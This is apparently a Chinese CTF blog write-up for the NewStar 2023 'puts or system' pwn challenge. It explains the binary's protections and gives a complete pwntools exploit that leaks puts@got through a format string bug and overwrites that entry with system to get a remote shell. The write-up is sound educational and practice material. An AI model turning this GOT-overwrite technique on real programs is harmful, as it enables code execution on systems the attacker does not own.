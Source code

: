 ```yaml
---
title: newstar2023 week3 - puts or system
date: 2023/10/12 12:00:00
updated: 2024/7/30 10:28:00
tags:
    - noob
excerpt: 通过格式化字符串漏洞，将程序中的puts调用替换为system调用，成功获取shell。
---
```


## 文件分析

下载`putsorsys`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序可多次输入，且存在格式化字符串漏洞；在printf后，执行了`puts("/bin/sh")`  
根据题意，将puts调用替换为system调用就可以拿到shell

由于程序relro保护为partial，因此可以直接将`puts@got`地址改为system地址即可

{% note tip fa-arrow-right %}
%n系列写地址输出过的字符是**累计的**，所以计算失误就会导致攻击失败，
因此可以把小的数字放在前面，大的数字放在后面，方便计算
{% endnote %}

## EXPLOIT

```python
from pwn import *
elf = ELF('putsorsys')
sh = remote('node4.buuoj.cn', 29595)
putsGot = elf.got['puts']

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%9$sxxxx' + p64(putsGot)) # get puts@got

sh.recvuntil(b':\n')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
#addr = putsGotAddr - 0x179bf0 + 0x14f760
addr = putsGotAddr - 0x180ed0 + 0x150d60 # libc given, shift puts to system
print(hex(addr))

# payload 2
sh.sendline(b'1')
highAddr = (addr & 0xff0000) >> 16
sh.sendlineafter(b'it', f'%{highAddr}c%11$hhn%{(addr & 0xffff) - highAddr}c%12$hn'.ljust(24, '0').encode() + p64(putsGot + 2) + p64(putsGot))

sh.interactive()
```

## 第一次三血！

<img src="/assets/newstar2023/3rdBlood.jpg" width="40%" title="好耶">

Done.
